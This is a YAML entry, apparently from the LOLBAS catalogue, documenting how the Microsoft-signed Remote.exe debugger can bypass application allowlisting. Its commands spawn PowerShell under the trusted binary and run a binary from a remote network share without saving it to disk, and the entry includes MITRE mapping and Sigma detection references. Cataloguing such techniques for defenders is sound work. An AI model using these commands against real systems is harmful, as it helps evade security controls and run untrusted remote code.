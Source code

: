 ```yaml
---
Name: Remote.exe
Description: Debugging tool included with Windows Debugging Tools
Author: mr.d0x
Created: 2021-06-01
Commands:
  - Command: Remote.exe /s "powershell.exe" anythinghere
    Description: Spawns powershell as a child process of remote.exe
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
  - Command: Remote.exe /s "powershell.exe" anythinghere
    Description: Spawns powershell as a child process of remote.exe
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
  - Command: Remote.exe /s "\\10.10.10.30\binaries\file.exe" anythinghere
    Description: Run a remote file
    Usecase: Executing a remote binary without saving file to disk
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\remote.exe
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\remote.exe
Code_Sample:
  - Code:
Detection:
  - IOC: remote.exe process spawns
  - Sigma: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_lolbin_remote.yml
Resources:
  - Link: https://blog.thecybersecuritytutor.com/Exeuction-AWL-Bypass-Remote-exe-LOLBin/
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

